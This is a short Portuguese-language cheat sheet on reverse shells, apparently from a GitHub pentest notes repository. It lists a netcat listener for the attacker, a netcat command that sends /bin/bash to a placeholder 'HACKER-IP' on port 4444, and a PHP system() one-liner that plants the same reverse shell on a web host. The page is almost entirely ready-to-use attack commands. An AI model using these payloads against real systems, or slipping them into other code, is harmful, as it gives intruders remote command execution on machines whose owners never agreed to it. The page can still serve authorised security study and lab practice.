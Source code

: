 # 🥟 Shells

## Shell reverso utilizando Netcat

### Na máquina atacante

Executar o netcat para ouvir uma conexão na portar 4444

```
nc -nvlp 4444
```

### Na máquina alvo

Executa do netcat para se conextar à máquina Kali na porta 4444, executa e envia o bash de comando.

```
nc HACKER-IP 4444 -e /bin/bash
```



Shell reverso utilizando o PHP

Executa o script .php no host para estabelecer uma conexão reversa para a máquina do atacante na porta 4444 e enviar o bash de comando.

```
<?php system('nc HACKER-IP 4444 -e /bin/bash')?>
```





